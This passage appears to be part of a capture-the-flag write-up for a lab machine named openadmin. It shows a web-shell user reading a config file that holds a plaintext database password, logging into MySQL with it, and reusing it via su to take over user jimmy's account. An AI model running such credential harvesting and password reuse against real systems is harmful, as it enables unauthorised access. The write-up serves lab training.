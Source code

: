 ```
www-data@openadmin:/var/www/ona/local/config$ cat database_settings.inc.php

<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```  

I logged into the mysql DB locally but couldn't find any further useful information :  

>mysql -u ona_sys -p -h localhost  
>n1nj4W4rri0R!  

## User Shell - jimmy  

After scouring the local database, I decided to try the password to switch user (*su*) :  

```bash 
?>www-data@openadmin:/var/www/ona/local/config$ su jimmy
su jimmy
Password: n1nj4W4rri0R!

jimmy@openadmin:/opt/ona/www/local/config$ id
id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```  

Navigating to the directory that jimmy has access to in /var/www/ we see an internal website being hosted :  

```bash 
jimmy@openadmin:/var/www/internal$ ls -la
ls -la
total 20
drwxrwx--- 2 jimmy internal 4096 Nov 23  2019 .
drwxr-xr-x 4 root  root     4096 Nov 22  2019 ..
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
```  
